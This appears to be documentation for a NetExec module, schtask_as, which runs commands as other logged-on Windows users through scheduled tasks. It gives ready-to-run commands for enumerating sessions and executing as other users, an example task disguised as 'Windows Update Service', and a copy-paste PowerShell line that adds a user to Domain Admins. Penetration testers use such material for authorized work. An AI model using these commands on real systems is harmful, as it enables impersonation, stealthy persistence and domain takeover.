 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte_).

### 1. Enumerate logged-on users on your Target

There are two ways you can enumerate logged on users on a Windows machine:

* --loggedon-user

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

* --qwinsta

```bash
nxc smb <ip> -u <localAdmin> -p <password> --qwinsta
```

Note that these two options do not output the same result at all. Indeed --loggedon-users returns the list of logged users as well as to which DC they connected to.
The --qwinsta returns the windows interactive sessions that are running on the system. Having a loggedon users doesn't necessarly mean that you can impersonate it via schtask_as, indeed that module requires the user you are targetting to have a Windows interactive session. As such, if you really want to be sure you can impersonate someone with that module, run the --qwinsta option.

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
BINARY         OPTIONAL: Upload the binary to be executed by CMD
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

Note that the BINARY option allows you specifying a local binary that will first be uploaded to the remote server, executed and cleared. This allows us not having to upload the binary and then run the module.
